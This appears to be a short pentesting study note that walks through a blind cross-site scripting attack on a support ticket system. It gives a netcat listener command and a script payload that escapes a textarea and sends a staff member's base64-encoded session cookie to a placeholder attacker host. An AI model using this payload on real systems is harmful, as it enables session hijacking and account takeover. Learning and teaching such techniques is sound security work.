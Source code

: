 ```yaml
---
title: Practical XSS example
---
```


Let's say we want to exploit a [blind-xss](knowledge/offsec/pentesting/blind-xss.md) vulnerability we've found.

We have a Support Ticket system in which we may create tickets, which content `textarea` field is vulnerable to [XSS](knowledge/offsec/pentesting/XSS.md).

We know we're able to run JavaScript code, but we don't have access to the content on our own, so we can't list anything. But we can expand the [payload](knowledge/offsec/glossary/payload.md) to send sensitive content to our own server using [netcat](knowledge/offsec/tools/netcat.md).

Because we're dealing with Support Ticket system, it's reasonable to assume that a staff member will also view this ticket which we could get to execute JavaScript.

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session.

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information:

```sh
$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, we build the payload:

`</textarea><script>fetch('http://{URL_OR_IP:PORT}?cookie=' + btoa(document.cookie) );</script>`

> [!tip] `btoa()` encodes the victim's cookies with base64.

Once the user opens a ticket, we can decode the cookies.
